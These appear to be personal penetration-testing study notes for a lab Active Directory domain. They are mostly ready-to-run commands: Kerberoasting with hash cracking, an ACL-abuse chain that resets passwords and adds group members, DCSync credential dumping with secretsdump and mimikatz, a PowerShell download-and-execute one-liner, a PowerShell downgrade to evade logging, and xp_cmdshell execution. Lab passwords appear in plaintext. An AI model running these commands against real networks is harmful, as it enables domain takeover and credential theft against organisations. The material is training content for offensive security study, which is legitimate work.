[Snaffler](https://github.com/SnaffCon/Snaffler) is a tool that can help us acquire credentials or other sensitive data in an Active Directory environment.

```bash
Snaffler.exe -s -d inlanefreight.local -o snaffler.log -v data
```

```powershell-session
.\Snaffler.exe  -d INLANEFREIGHT.LOCAL -s -v data
```

### BloodHound

```powershell-session
.\SharpHound.exe -c All --zipfilename ILFREIGHT
```

## Living Off the Land


### Env Commands For Host & Network Recon

```
hostname
```
`Prints the PC's Name`

```
[System.Environment]::OSVersion.Version
```
`Prints out the OS version and revision level`

```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```
`Prints the patches and hotfixes applied to the host`

```
ipconfig /all
```
`Prints out network adapter state and configurations`

```
set
```
`Displays a list of environment variables for the current session (ran from CMD-prompt)`

```
echo %USERDOMAIN%
```
`Displays the domain name to which the host belongs (ran from CMD-prompt)`

```
echo %logonserver%
```
`Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt)`


### Harnessing PowerShell

```
Get-Module
```
`Lists available modules loaded for use.`

```
Get-ExecutionPolicy -List
```
`Will print the execution policy settings for each scope on a host.`

```
Set-ExecutionPolicy Bypass -Scope Process
```
`This will change the policy for our current process using the -Scope parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host.`

```
Get-ChildItem Env: | ft Key,Value
```
`Return environment values such as key paths, users, computer information, etc.`

```
Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
```
`With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.`

```
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"
```
`This is a quick and easy way to download a file from the web using PowerShell and call it from memory.`


```powershell-session
powershell.exe -version 2
```
`Downgrade the powershell version which shut downs logs entries`
```powershell-session
Get-host
```
`Verify the Version of Powershell`


### Checking Defenses

```powershell-session
netsh advfirewall show allprofiles
```
` Firewall Checks`

```cmd-session
sc query windefend
```
`Windows Defender Check (from CMD.exe)`

```powershell-session
Get-MpComputerStatus
```


```powershell-session
qwinsta
```
`To check how many users are logged in Currently`

### Network Information

```
arp -a
```
`Lists all known hosts stored in the arp table.`

```
ipconfig /all
```
`Prints out adapter settings for the host. We can figure out the network segment from here.`

```
route print
```
`Displays the routing table (IPv4 & IPv6) identifying known networks and layer three routes shared with the host.`

```
netsh advfirewall show allprofiles
```
`Displays the status of the host's firewall. We can determine if it is active and filtering traffic.`


### Windows Management Instrumentation (WMI)


[Windows Management Instrumentation (WMI)](https://docs.microsoft.com/en-us/windows/win32/wmisdk/about-wmi) is a scripting engine that is widely used within Windows enterprise environments to retrieve information and run administrative tasks on local and remote hosts


This [cheatsheet](https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4) has some useful commands for querying host and domain info u
sing wmic.

```powershell-session
wmic ntdomain get Caption,Description,DnsForestName,DomainName,DomainControllerAddress
```

### Net Commands

```
net accounts
```
`Information about password requirements`

```
net accounts /domain
```
`Password and lockout policy`

```
net group /domain
```
`Information about domain groups`

```
net group "Domain Admins" /domain
```
`List users with domain admin privileges`

```
net group "domain computers" /domain
```
`List of PCs connected to the domain`

```
net group "Domain Controllers" /domain
```
`List PC accounts of domains controllers`

```
net group <domain_group_name> /domain
```
`User that belongs to the group`

```
net groups /domain
```
`List of domain groups`

```
net localgroup
```
`All available groups`

```
net localgroup administrators /domain
```
`List users that belong to the administrators group inside the domain (the group Domain Admins is included here by default)`

```
net localgroup Administrators
```
`Information about a group (admins)`

```
net localgroup administrators [username] /add
```
`Add user to administrators`

```
net share
```
`Check current shares`

```
net user <ACCOUNT_NAME> /domain
```
`Get information about a user within the domain`

```
net user /domain
```
`List all users of the domain`

```
net user %username%
```
`Information about the current user`

```
net use x: \computer\share
```
`Mount the share locally`

```
net view
```
`Get a list of computers`

```
net view /all /domain[:domainname]
```
`Shares on the domains`

```
net view \computer /ALL
```
`List shares of a computer`

```
net view /domain
```
`List of PCs of the domain`


```powershell-session
net user /domain wrouse
```
`Info About an Specific Domain user`

Typing `net1` instead of `net` will execute the same functions without the potential trigger from the net string.


### Dsquery

[Dsquery](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc732952\(v=ws.11\)) is a helpful command-line tool that can be utilized to find Active Directory objects.

```powershell-session
dsquery user
```
`Gives all the username`

```powershell-session
dsquery computer
```
`Computer search`


```powershell-session
dsquery * "CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
```
`We can use a wildcard search to view all objects in an OU, for example.`


```powershell-session
dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl
```
`The below looks for users with the `PASSWD_NOTREQD` flag set in the `userAccountControl` attribute`

```powershell-session
dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName
```
`Searching for Domain Controllers`


### LDAP Filtering Explained


-------> DO THIS IN DETAIL


```
ldapsearch -x -H ldap://<DC_IP> \
-D "<USERNAME>@<DOMAIN.COM>" -w "<PASSWORD>" \
-b "DC=<DOMAIN>,DC=<COM>" \
"(&(objectClass=user)(objectCategory=Person)(userAccountControl:1.2.840.113556.1.4.803:=2)(adminCount=1))" \
description
```
`Above can be used to find Domain User Accounts with Administrative privlages and seeiing thier Description using ldapsearch`


```powershell
dsquery * domainroot -filter "(&(objectClass=user)(objectCategory=Person)(userAccountControl:1.2.840.113556.1.4.803:=2)(adminCount=1))" -attr description
```
`Above can be used to find Domain User Accounts with Administrative privlages and seeing thier descirption using Powershell`


# Cooking with Fire

## Kerberoasting - from Linux

Several tools can be utilized to perform the attack:

- Impacket’s [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from a non-domain joined Linux host.
- A combination of the built-in setspn.exe Windows binary, PowerShell, and Mimikatz.
- From Windows, utilizing tools such as PowerView, [Rubeus](https://github.com/GhostPack/Rubeus), and other PowerShell scripts.


### Kerberoasting with GetUserSPNs.py


```shell-session
GetUserSPNs.py -h
```


```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```
`Lisiting SPN accouts`

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request
```
`Requesting All the TGTs Tickests`


```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/sqldev -request-user SAPService
```
`Requesting an Targeted TGT`

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```
`Saving the TGT to an output file`


```shell-session
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```
`Cracking the Ticket with Hackcat`

```shell-session
sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```
`Testing Authentication against a Domain Controller`


## Kerberoasting - from Windows

### Kerberoasting - Semi Manual method

Before tools such as `Rubeus` existed, stealing or forging Kerberos tickets was a complex, manual process.


```cmd-session
setspn.exe -Q */*
```
` Enumerating SPNs with setspn.exe`


```powershell-session
Add-Type -AssemblyName System.IdentityModel
```
```powershell-session
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
`Targeting an Single User`

```powershell-session
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```
`Retrieving All Tickets Using setspn.exe`


```cmd-session
base64 /out:true
```
```cmd-session
kerberos::list /export
```


```shell-session
echo "<base64 blob>" |  tr -d \\n 
```
`Preparing the Base64 Blob for Cracking`

```shell-session
cat encoded_file | base64 -d > sqldev.kirbi
```
`Making An kirbi file using Base64 blob`


```shell-session
python2.7 kirbi2john.py sqldev.kirbi
```
`Extracting the Kerberos Ticket using kirbi2john.py THis will  Create an Crack_file`


```shell-session
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```
`Modifiying crack_file for Hashcat`


```shell-session
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```
`Cracking the Hash WIth hashcat`


---

### Automated / Tool Based Route

#### powerview Kerberosting
```powershell-session
Import-Module .\PowerView.ps1
```
```powershell-session
Get-DomainUser * -spn | select samaccountname
```
`#### Using PowerView to Enumerate SPN Accounts`

```powershell-session
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
`#### Using PowerView to Target a Specific User`

```
tr -d ' \n' < svc_hash > clean.hash
```
`to get an Clean hash for hachcat to work`

```powershell-session
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```
`#### Exporting All Tickets to a CSV File`


#### Rubeus Kerberosting

```powershell-session
.\Rubeus.exe kerberoast /stats
```
`This Give Info Like How many users are Kerberostable`

Let's use Rubeus to request tickets for accounts with the `admincount` attribute set to `1`. These would likely be high-value targets

```powershell-session
\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
`This will Give Tickets Of High Value targets`

/nowarp will help is easily copying

### A Note on Encryption Types

Kerberoasting tools typically request `RC4 encryption` when performing the attack and initiating TGS-REQ requests. This is because RC4 is **weaker** than AES-128 or 256 


we will retrieve hashes that begin with `$krb5tgs$23$*`, an RC4 (type 23) encrypted ticket. Sometimes we will receive an AES-256 (type 18) encrypted hash or hash that begins with `$krb5tgs$18$*`
w

```powershell-session
.\Rubeus.exe kerberoast /user:testspn /nowrap
```
`Kerberosting an Speciffic USer using `


```powershell-session
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```
`we can see that the `msDS-SupportedEncryptionTypes` attribute is set to `0` which means it hash the Default Encrption of RC4 `

```shell-session
hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt 
```

```powershell-session
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```
`if the above returns 24 then AES-128 and 256 is Suppoorted`


```powershell-session
.\Rubeus.exe kerberoast /user:testspn /nowrap
```
`THis Retured an AES-128 ticket`

```shell-session
hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt 
```
`Cracking an AES-128 or 256 ticket`


We can use Rubeus with the `/tgtdeleg` flag to specify that we want only RC4 encryption when requesting a new service ticket


```
.\Rubeus.exe kerberoast /user:testspn /nowrap /tgtdeleg 
```
`To only Get RC4 hash Tickets`


# An ACE in the Hole

## Access Control List (ACL) Abuse Primer

In their simplest form, ACLs are lists that define a) who has access to which asset/resource and b) the level of access they are provisioned

There are two types of ACLs:

1. `Discretionary Access Control List` (`DACL`) - defines which security principals are granted or denied access to an object. DACLs are made up of ACEs that either allow or deny access. When someone attempts to access an object, the system will check the DACL for the level of access that is permitted. If a DACL does not exist for an object, all who attempt to access the object are granted full rights. If a DACL exists, but does not have any ACE entries specifying specific security settings, the system will deny access to all users, groups, or processes attempting to access it.
    
2. `System Access Control Lists` (`SACL`) - allow administrators to log access attempts made to secured objects.


In the above image the Persissions Enyries are the DACL and the Access such as Full control and change password  are ACEs


The SACLs can be seen within the `Auditing` tab.

### Access Control Entries (ACEs)

|**ACE**|**Description**|
|---|---|
|`Access denied ACE`|Used within a DACL to show that a user or group is explicitly denied access to an object|
|`Access allowed ACE`|Used within a DACL to show that a user or group is explicitly granted access to an object|
|`System audit ACE`|Used within a SACL to generate audit logs when a user or group attempts to access an object. It records whether access was granted or not and what type of access occurred|

Each ACE is made up of the following `four` components:

1. The security identifier (SID) of the user/group that has access to the object (or principal name graphically)
2. A flag denoting the type of ACE (access denied, allowed, or system audit ACE)
3. A set of flags that specify whether or not child containers/objects can inherit the given ACE entry from the primary or parent object
4. An [access mask](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/7a53f60e-e730-4dfe-bbe9-b21b62eb790b?redirectedfrom=MSDN) which is a 32-bit value that defines the rights granted to an object


### Why are ACEs Important 

#### **1. ForceChangePassword**

- **Abuse:** You hold the "Reset Password" extended right on a target user.
    
- **Command:** `Set-DomainUserPassword`
    
- **Mechanism:** This command invokes the specific extended right to forcibly set a new password for the target user without knowing the current one.
    

#### **2. Add Members**

- **Abuse:** You have the specific right to write to the `Member` property of a target group.
    
- **Command:** `Add-DomainGroupMember`
    
- **Mechanism:** The command updates the group's membership list to include a user you control (often your current user or a compromised account), granting you the group's privileges.
    

#### **3. GenericAll**

- **Abuse:** You have "Full Control" over the target object, meaning you can perform any action (reset passwords, change group membership, modify attributes).
    
- **Command:** `Set-DomainUserPassword` or `Add-DomainGroupMember`
    
- **Mechanism:** Since you have every permission, you can choose the easiest path: resetting the user's password to take over the account or adding yourself to the group to gain its access.
    

#### **4. GenericWrite**

- **Abuse:** You have the ability to write to almost any non-protected attribute of the target object (e.g., `servicePrincipalName`, `msDS-AllowedToActOnBehalfOfOtherIdentity`).
    
- **Command:** `Set-DomainObject`
    
- **Mechanism:** This command writes malicious data to specific attributes. For example, writing a fake SPN to a user to perform a Kerberoasting attack, or configuring Resource-Based Constrained Delegation (RBCD) on a computer object.
    

#### **5. WriteOwner**

- **Abuse:** You have the permission to change the owner of the target object.
    
- **Command:** `Set-DomainObjectOwner`
    
- **Mechanism:** You use the command to set the object's owner to your own user account. Once you are the owner, Active Directory implicitly allows you to modify the object's permissions (DACL) to grant yourself Full Control.
    

#### **6. WriteDACL**

- **Abuse:** You have the permission to modify the Discretionary Access Control List (the permissions) of the target object.
    
- **Command:** `Add-DomainObjectACL`
    
- **Mechanism:** You use this command to edit the ACL and grant your user account `GenericAll` (Full Control) or `DCSync` rights over the target, effectively giving you permanent dominance over the object.
    

#### **7. AllExtendedRights**

- **Abuse:** You have all extended rights on the object, which includes the "Reset Password" right (and others like "Send As" for Exchange).
    
- **Command:** `Set-DomainUserPassword`
    
- **Mechanism:** Similar to `ForceChangePassword`, this command utilizes the specific "Reset Password" capability included within the `AllExtendedRights` bundle to overwrite the target's credentials.
    

#### **8. AddSelf**

- **Abuse:** A specific subset of "Add Members" where the permission allows the principal to add _themselves_ to the group, but not necessarily others.
    
- **Command:** `Add-DomainGroupMember`
    
- **Mechanism:** The command is used to add your specific current user context to the target group, instantly escalating your privileges to include that group's rights.




---

### ACL Enumeration

---

transporter@4

#### Enumerating ACLs with PowerView

```powershell-session
Find-InterestingDomainAcl
```
`#### Using Find-InterestingDomainAcl`

```powershell-session
Import-Module .\PowerView.ps1
```
```powershell-session
$sid = Convert-NameToSid wley
```

Now We can so an Targeted Search for user wley using it's SID . We will find what rights he have Over other Objects

```powershell-session
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```
`ACL realted to the User wley using Get-DomainObjectACL .This will give you the GUID which is not humane Readable`
```powershell-session
ObjectAceType          : 00299570-246d-11d0-a768-00aa006e0529
```

We could Google for the GUID value `00299570-246d-11d0-a768-00aa006e0529` and uncover [this](https://docs.microsoft.com/en-us/windows/win32/adschema/r-user-force-change-password) page


```powershell-session
$guid= "00299570-246d-11d0-a768-00aa006e0529"
```
```powershell-session
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```
` Performing a Reverse Search & Mapping to a GUID Value`
```powershell-session
Name              : User-Force-Change-Password
DisplayName       : Reset Password
DistinguishedName : CN=User-Force-Change-Password,CN=Extended-Rights,CN=Configuration,DC=INLANEFREIGHT,DC=LOCAL
rightsGuid        : 00299570-246d-11d0-a768-00aa006e0529
```

```powershell-session
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```
`PowerView has the ResolveGUIDs flag, which does this very thing for us`

```powershell-session
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
```
`Creating a List of Domain Users`

```powershell-session
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}
```
`ACLs Realated to user wley using ad_user.txt`
We then read each line of the file using a `foreach` loop, and use the `Get-Acl` cmdlet to retrieve ACL information for each domain user by feeding each line of the `ad_users.txt` file to the `Get-ADUser` cmdlet. We then select just the `Access property`, which will give us information about access rights. Finally, we set the `IdentityReference` property to the user we are in control of (or looking to see what rights they have), in our case, `wley`.


```powershell-session
$sid2 = Convert-NameToSid damundsen
```
```powershell-session
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose
```
`Further Enumeration of Rights Using damundsen`


**If You Compromise an User which is an part of help desk gorup and that help desk group is nested under the IT group then that compromised user have the Same rights that IT group users have**


```powershell-session
Get-DomainGroup -Identity "Help Desk Level 1" | select memberof
```
`OUTPUT`
```powershell-session
memberof                                                                      
--------                                                                      
CN=Information Technology,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
```
`Investigating the Help Desk Level 1 Group with Get-DomainGroup .As you can see it is the Part of IT(Information Technology)`


Once again, doing our search using `Get-DomainObjectACL` shows us that members of the `Information Technology` group have `GenericAll` rights over the user `adunn`, which means we could:


```powershell-session
$itgroupsid = Convert-NameToSid "Information Technology"
```
```powershell-session
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $itgroupsid} -Verbose
```
`Investigating the Information Technology Group`


The output above shows that our `adunn` user has `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-In-Filtered-Set` rights over the domain object. This means that this user can be leveraged to perform a DCSync attack. We will cover this attack in-depth in the `DCSync` section.


### Enumerating ACLs with BloodHound


we can set the `wley` user as our starting node, select the `Node Info` tab and scroll down to `Outbound Control Rights`. This option will show us objects we have control over directly, via group membership, and the number of objects that our user could lead to us controlling via ACL attack paths under `Transitive Object Control`. If we click on the `1` next to `First Degree Object Control`, we see the first set of rights that we enumerated, `ForceChangePassword` over the `damundsen` user.


## ACL Abuse Tactics


---

### Abusing ACLs

1. Use the `wley` user to change the password for the `damundsen` user
2. Authenticate as the `damundsen` user and leverage `GenericWrite` rights to add a user that we control to the `Help Desk Level 1` group
3. Take advantage of nested group membership in the `Information Technology` group and leverage `GenericAll` rights to take control of the `adunn` user


```powershell-session
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
```
```powershell-session
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```
`Creating an PScredential Objeect for user wley`


```powershell-session
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```
`password we want to set for the target user damundsen.`


```powershell-session
cd C:\Tools\
```
```powershell-session
Import-Module .\PowerView.ps1
```
```powershell-session
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```
`Changing the User's Password Using Force-Change-Password ACL . In this we are using creds Object of wley and the damun new Password`


```powershell-session
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```
```powershell-session
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
```
`Creating a SecureString Object using damundsen`


```powershell-session
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
```
`Seesing the Members of Help Desk group `

```powershell-session
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```
`Adding damundsen to the Help Desk Level 1 Group`

```powershell-session
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```
`Confirming damundsen was Added to the Group`

but the `adunn` user is an admin account that cannot be interrupted. Since we have `GenericAll` rights over this account, we can have even more fun and perform a targeted Kerberoasting attack by modifying the account's [servicePrincipalName attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname) to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat.


```powershell-session
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
`Creating a Fake SPN for adunn`


```powershell-session
.\Rubeus.exe kerberoast /user:adunn /nowrap
```
`The Fake SPN that we created Now can be Kerberost Using Rubeus`

### Cleanup

```powershell-session
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```
`Removing the Fake SPN from adunn's Account`

```powershell-session
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```
`Removing damundsen from the Help Desk Level 1 Group`

```powershell-session
 Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```

### Mediation

`Auditing for and removing dangerous ACLs`

`Audit and monitor for ACL changes`

`Monitor group membership`


---
## DCSync

---

## What is DCSync and How Does it Work?

DCSync is a technique for stealing the Active Directory password database by using the built-in `Directory Replication Service Remote Protocol`, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

The crux of the attack is requesting a Domain Controller to replicate passwords via the `DS-Replication-Get-Changes-All` extended right. This is an extended access control right within AD, which allows for the replication of secret data.


a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set


```powershell-session
Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
```
`Using Get-DomainUser to View adunn's Group Membership`


```powershell-session
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
```
```powershell-session
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```
`Checkig if the user adunn have Replication Rights or Not`


```shell-session
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
```
`Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py performing the DCsync`

#### Deep Dive: Reversible Encryption

The text spends significant time on "Reversible Encryption," a dangerous setting in Active Directory.

#### The Misconception vs. Reality

- **The Myth:** Passwords are saved in a simple text file (Cleartext).
    
- **The Reality:** Passwords are encrypted using **RC4**.
    
- **The Catch:** To encrypt something, you need a key. In this case, the key is the **Syskey**, which is stored in the Registry of the Domain Controller.

##### DCsync with Mimicatz

```cmd-session
runas /netonly /user:INLANEFREIGHT\adunn powershell
```
```powershell-session
.\mimikatz.exe
```
```powershell-session
privilege::debug
```
```powershell-session
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```
`Dumping the Bultin Administrator Account Using mimicatz`


## Privileged Access

We can enumerate this access in various ways. The easiest, once again, is via BloodHound, as the following edges exist to show us what types of remote access privileges a given user has:

- [CanRDP](https://bloodhound.specterops.io/resources/edges/can-rdp)
- [CanPSRemote](https://bloodhound.specterops.io/resources/edges/can-ps-remote)
- [SQLAdmin](https://bloodhound.specterops.io/resources/edges/sql-admin)


### Remote Desktop


```powershell-session
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
```
`Enumerating the Remote Desktop Users Group`


`In the baove img you can see all the DOmain Users Can RDP into this Machine`


### WinRM

```powershell-session
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users
```
`Enumerating the Remote Management Users Group`


```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```
`Bloodhound cipher to Enumrate Remote Management Users Group`


```powershell-session
$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
```
```powershell-session
$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
```
```powershell-session
Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
```
`Establishing WinRM Session from Windows`

```shell-session
evil-winrm -i 10.129.201.234 -u forend
```


### SQL Server Admin

We may obtain Creds or DO kerberosting or LLMNR

```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```
`Bloodhound cipher to FInd Account with SQL Admin Rights`


```powershell-session
cd .\PowerUpSQL\
```
```powershell-session
Import-Module .\PowerUpSQL.ps1
```
```powershell-session
Get-SQLInstanceDomain
```
`Enumerating MSSQL Instances with PowerUpSQL`


```powershell-session
Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```
`Executing COOmmands Using MSSQL`


```shell-session
mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
```
`Running mssqlclient.py Against the Target`
```shell-session
enable_xp_cmdshell
```
```shell-session
xp_cmdshell whoami /priv
```
`Executing Commands With mssqlclient.py`

`xp_cmdshell <command>`. Here we can enumerate the rights that our user has on the system and see that we have [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege), which can be leveraged in combination with a tool such as [JuicyPotato](https://github.com/ohpe/juicy-potato), [PrintSpoofer](https://github.com/itm4n/PrintSpoofer), or [RoguePotato](https://github.com/antonioCoco/RoguePotato) to escalate to `SYSTEM` level privileges

```powershell
Get-DomainComputer | % { Get-NetLocalGroupMember -ComputerName $_.DnsHostName -GroupName "Remote Management Users" -ErrorAction SilentlyContinue }
```

## Kerberos Double Hop Problem

### 1. The Core Mechanism: Tickets vs. Credentials

To understand the failure, you must distinguish between the two types of Kerberos tickets.

- **TGT (Ticket Granting Ticket):** This is your master "ID Card." It proves who you are to the Domain Controller (KDC) and is used to request access to specific services.
    
- **TGS (Ticket Granting Service):** This is a specific "Entry Pass" for **one** specific resource (e.g., SMB on DEV01). It is generated using your TGT.
    

### 2. The Hop-by-Hop Breakdown

#### Hop 1: Success (Attack Host → DEV01)

You connect to `DEV01` using `evil-winrm`.

- **What happens:** Your Attack Host uses your credentials to request a **TGS** specifically for `DEV01`.
    
- **The Transfer:** You send **only the TGS** to `DEV01`.
    
- **The State:** `DEV01` validates the TGS and lets you in. However, `DEV01` **does not** receive your TGT (your master ID). It only holds the entry pass valid for itself.
    

#### Hop 2: Failure (DEV01 → DC01)

You are now on `DEV01` and run PowerView to query `DC01`.

- **The Requirement:** To talk to `DC01`, you need a **new TGS** valid for `DC01`.
    
- **The Missing Link:** To get that new TGS, `DEV01` needs to talk to the KDC on your behalf. To do that, it needs your **TGT**.
    
- **The Result:** Since `DEV01` never received your TGT in Hop 1, it cannot request new tickets for you. `DC01` sees an anonymous or unauthenticated request and denies access.
    

### 3. Why NTLM Works (and Kerberos Fails here)

- **NTLM (e.g., PSExec):** If you had used NTLM, your **password hash** would be stored in `lsass.exe` memory on `DEV01`. `DEV01` could simply read that hash and re-authenticate to `DC01` as you.
    
- **Kerberos (WinRM):** Kerberos is designed _not_ to leave credentials (hashes) in memory on remote machines. It isolates authentication to the specific session. `DEV01` has no hash and no TGT to use for lateral movement.
    

### 4. The Exception: Unconstrained Delegation

If `DEV01` is configured with **Unconstrained Delegation**, the rules change entirely.

1. **TGT Forwarding:** When you connect to `DEV01`, the Domain Controller sees the "Unconstrained" flag and includes a copy of your **TGT** inside the TGS sent to `DEV01`.
    
2. **Cached Identity:** `DEV01` extracts your TGT and caches it in memory.
    
3. **Unlimited Access:** `DEV01` can now use that cached TGT to request TGS tickets for _any_ service (like `DC01`) as if it were you. The double hop succeeds because your "Master ID" was forwarded.


### Workaround #1: PSCredential Object

```shell-session
*Evil-WinRM* PS C:\Users\backupadm\Documents> import-module .\PowerView.ps1
```
`Imppor the Powerview Module`

```shell-session
$SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force
```
```shell-session
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)
```
`Creating an Object for backupadm`

```shell-session
get-domainuser -spn -credential $Cred | select samaccountname
```
`Pass the Credential With the command and Now it will Work Without any error`


## Workaround #2: Register PSSession Configuration


```powershell-session
Enter-PSSession -ComputerName ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL -Credential inlanefreight\backupadm
```


```powershell-session
Register-PSSessionConfiguration -Name backupadmsess -RunAsCredential inlanefreight\backupadm
```
```
Restart-Service WinRM
```
```powershell-session
Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm -ConfigurationName  backupadmsess
```


